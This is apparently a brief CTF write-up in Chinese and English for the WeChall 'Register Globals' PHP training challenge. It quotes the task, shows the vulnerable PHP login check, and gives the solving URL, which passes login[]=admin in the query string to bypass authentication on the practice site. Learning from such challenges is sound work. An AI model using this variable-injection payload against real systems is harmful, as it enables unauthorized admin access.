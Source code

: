 
* 题目
``` 

This challenge is a relict of old PHP times, where register globals has been enabled by default, which often lead to security issues.
Again, your job is to login as admin, and you are given the sourcecode as well as highlighted version.

Here is the link to the vulnerable script.
I have also setup a test account: test:test

Enjoy!
```

* 题解
``` 
if (isset($login))
{
	echo GWF_HTML::message('Register Globals', $chall->lang('msg_welcome_back', array(htmlspecialchars($login[0]), htmlspecialchars($login[1]))));
	if (strtolower($login[0]) === 'admin') {
		$chall->onChallengeSolved(GWF_Session::getUserID());
	}
}
```
* 解决
> www.wechall.net/challenge/training/php/globals/globals.php?login[]=admin
